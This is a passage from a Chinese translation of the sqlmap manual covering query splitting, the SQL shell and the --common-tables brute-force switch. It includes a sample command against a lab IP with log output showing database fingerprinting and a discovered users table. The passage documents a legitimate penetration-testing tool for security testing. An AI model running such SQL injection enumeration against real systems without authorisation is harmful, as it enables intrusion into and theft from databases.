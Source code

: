 ```
[hh:mm:50] [INFO] retrieved: foo
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS VA
RCHAR(8000)), (CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar':    'foo, bar'
```

如您所见，sqlmap将提供的查询拆分为两个不同的 `SELECT` statements then retrieves the output for each separate query. 

如果提供的查询是一个 `SELECT`语句并包含一个`FROM`子句，sqlmap将询问这样的语句是否可以返回多个条目。在这种情况下，该工具知道如何正确地解压查询，以计数可能的条目的数量并检索它的输出，每个条目的条目。

SQL shell选项允许您交互式地运行自己的SQL语句，就像连接到数据库管理系统的SQL控制台一样。这个功能也提供了标签完成和历史支持。
破解

### 暴力

这些开关可以用来运行暴力检查。

### 暴力表名称

开关: `--common-tables`

有些情况下，开关`--tables`不能用于检索数据库的表名。这些案件通常属于以下类别之一:

* 数据库管理系统是MySQL **< 5.0** ，在这里不提供 `information_schema`。
* 数据库管理系统是Microsoft Access，系统表 `MSysObjects` 是不可读的 - 默认设置。
* 会话用户不具有对存储数据库方案的系统表的权限。

如果前两个案例中的任何一个应用，并且您提供了开关 `--tables`，sqlmap将提示您一个问题
回到这个技巧。这两种情况中的任何一个都适用于您的情况，sqlmap可能仍然可以识别一些现有的表，如果您提供了开关 `--common-tables`。sqlmap将执行蛮力攻击，以检测DBMS中常见表的存在。

常用表名的列表是 `txt/common-tables.txt` 。你可以随意编辑它。

针对MySQL 4.1目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --commo\
n-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/tx
t/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```
